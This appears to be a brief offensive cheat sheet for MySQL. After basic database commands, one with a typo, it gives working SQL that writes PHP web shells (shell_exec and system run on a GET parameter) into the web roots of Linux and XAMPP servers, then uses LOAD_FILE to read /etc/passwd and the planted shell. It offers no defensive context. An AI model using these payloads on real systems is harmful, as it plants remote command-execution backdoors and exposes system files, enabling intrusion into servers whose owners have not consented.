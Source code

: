 
View Databases:

```bash
show databases;
```

Use Database:

```bash
use <database>;
```

View Tables:


```bash
show tables;
```

View Contents of Table:

```bash
seclect * from <table_name>;
```

Write file to system

```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\cmd.php";
```

Read file on system

```bash
SELECT LOAD_FILE("/etc/passwd");
SELECT LOAD_FILE("C:\\xampp\\htdocs\\cmd.php");
```